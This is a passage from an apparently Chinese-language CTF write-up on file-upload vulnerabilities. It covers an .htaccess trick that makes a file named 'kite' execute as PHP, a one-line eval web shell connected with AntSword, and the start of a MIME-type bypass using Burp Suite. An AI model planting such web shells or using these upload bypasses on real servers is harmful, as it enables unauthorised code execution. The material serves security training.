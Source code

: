 蚁剑连接即可。

### .htaccess

**概述**

.htaccess文件(或者"分布式配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

**解题思路**

.htaccess:(将kite文件当成php文件解析)
```
<FilesMatch "kite">
 SetHandler application/x-httpd-php
</FilesMatch>
```

kite:
```php
<?php eval(@$_POST['kite']); ?>
```

先上传.htaccess文件再上传kite文件，最后蚁剑一句话连接。

### MIME绕过

MIMIE-Type相关知识点 -> [点击链接](https://www.w3school.com.cn/media/media_mimeref.asp)

**解题思路**

上传shell.php,burpsuite抓包

![](./img/upload3.png)
